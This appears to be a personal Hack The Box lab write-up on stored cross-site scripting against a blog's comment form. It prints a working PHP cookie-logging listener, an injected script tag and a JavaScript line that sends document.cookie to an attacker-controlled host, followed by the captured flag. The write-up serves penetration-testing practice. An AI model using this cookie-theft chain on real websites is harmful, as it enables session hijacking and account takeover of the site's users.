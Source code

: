 Starting the PHP server:
```shell-session
php -S 0.0.0.0:80
```

The `index.php` file contains the following code, to grab the cookies to a file:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Found a web page where we could leave a comment:
http://10.129.136.14/assessment/index.php/2021/06/11/welcome-to-security-blog/

Website field is vulnerable:
![[Pasted image 20240510165023.png]]

With the script:
```html
<script src=http://10.10.14.250></script>
```

We have a `script.js` file ready in the same directory with the `index.php` file, with the following content:
```html
new Image().src='http://10.10.14.250/index.php?c='+document.cookie
```

Now lets try to enter the script to the vulnerable website field again:
![[Pasted image 20240510165919.png]]

And we got the flag:
![[Pasted image 20240510165948.png]]

HTB{cr055_5173_5cr1p71n6_n1nj4}